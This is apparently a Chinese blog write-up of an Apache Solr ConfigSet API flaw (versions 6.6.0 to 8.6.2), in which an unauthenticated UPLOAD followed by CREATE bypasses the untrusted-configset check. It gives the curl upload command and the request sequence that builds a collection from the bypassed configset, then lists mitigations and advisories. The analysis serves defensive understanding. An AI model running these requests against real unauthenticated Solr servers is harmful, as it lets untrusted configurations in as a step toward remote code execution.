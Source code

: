 
### 影响版本
- 6.6.0 to 6.6.5
- 7.0.0 to 7.7.3
- 8.0.0 to 8.6.2

### 漏洞描述
本来Solr禁止了一些通过ConfigSet这个API上传进行配置的功能，因为这种危险操作可能造成RCE。但是可以通过结合UPLOAD/CREATE这两个ACTION来绕过这一限制。


原文
> Solr prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.

### 漏洞利用条件
- Solr的API未设置认证
- SolrCloud模式启动（因为Standalone模式不具备Configset API的功能）


### 漏洞原理：

正常的通过UPLOAD传上去的configset，是不能用于创建collection的： 如果尝试创建，会出现这个错误
```
The configset for this collection was uploaded without any authentication in place, and use of <lib> is not available for collections with untrusted configsets. To use this component, re-upload the configset after enabling authentication and authorization.
```
我理解就是："你用来创建collection的这个configset是在没有认证的情况下上传的，我们知道这是不安全的，我们不信任这个configset，所以我们不让这个configset创建collection。要是真想用这个configset创建collection，等开启了认证之后再重新上传吧。"

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013205617142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
而当我们先UPLOAD，然后基于这个configset，去CREATE一个collection，就可以绕过这个限制。

达到的效果是可以自定义configset，然后基于此创建恶意collection。目前没想到如何利用好这个自定义的配置实现RCE。只知道用之前的模板注入，不过那个有版本限制吧？

### 步骤：
```
1、【UPLOAD】准备恶意配置，打包，上传

# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > db-configset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @db-configset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=db-configset"
2、【CREATE】根据UPLOAD的配置，创建一个新的配置，绕过不能通过直接UPLOAD创建collection的限制

/solr/admin/configs?action=CREATE&name=db-configset1&baseConfigSet=db-configset&configSetProp.immutable=false&wt=xml&omitHeader=true
3、【LIST】查看Configsets的配置，确保已生成了新的configset

/solr/admin/configs?action=LIST&omitHeader=true
4、根据CREATE得到的configset创建恶意collection

/solr/admin/collections?action=CREATE&numShards=1&name=coll_test1&collection.configName=db-configset1
5、利用之前的漏洞进行利用？
```

### 修复建议/缓解措施

- 禁用UPLOAD命令，即`-Dconfigset.upload.enabled=false`；
- 进行认证
- 升级到8.6.3及以上
- 若无法升级，尝试打这个补丁：[SOLR-14663](https://issues.apache.org/jira/browse/SOLR-14663)
- 设置防火墙规则进行访问控制，设置Solr API访问的白名单


### 参考
- https://seclists.org/oss-sec/2020/q4/47
- [ConfigSets CREATE does not set trusted flag](https://issues.apache.org/jira/browse/SOLR-14663)
- https://issues.apache.org/jira/browse/SOLR-14925



### Note
参考：
http://mail-archives.apache.org/mod_mbox/lucene-solr-user/201807.mbox/%3CCAPCX2-+jojXrWvPSPiBR_xwphdpk+yPM2HYLojX2rqRTKMGm9g@mail.gmail.com%3E


Solr可以运行在两种模式："Cloud" mode or "Standalone" mode。

SolrCloud mode下，可以创建collections，而在Standalone mode下，只能创建core。


在Standalone mode下会出现400，
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020101311185353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
关闭，重新启动SolrCloud mode：
这次成功了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013111947306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)



### 附录
#### 上传Configsets
```
# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > myconfigset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

#### 创建Configsets
基于之前上传的Configsets创建一个新的configset 
- name：这个新的configset的名字
- baseConfigSet：基于哪个上传的Configsets
- configSetProp.immutable：将这个设置为false

```
http://cqq.com:8983/solr/admin/configs?action=CREATE&name=myConfigSet1&baseConfigSet=myConfigSet&configSetProp.immutable=false&wt=xml&omitHeader=true
```

#### 查看Configsets：
```
http://cqq.com:8983/solr/admin/configs?action=LIST&omitHeader=true
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013113257997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

上传、以及配置后的Configsets并不在文件系统中，而是在Zookeeper中。

> The Configsets API enables you to upload new configsets to ZooKeeper, create, and delete configsets when Solr is running SolrCloud mode.


> This API provides a way to upload configuration files to ZooKeeper and share the same set of configuration files between two or more collections.

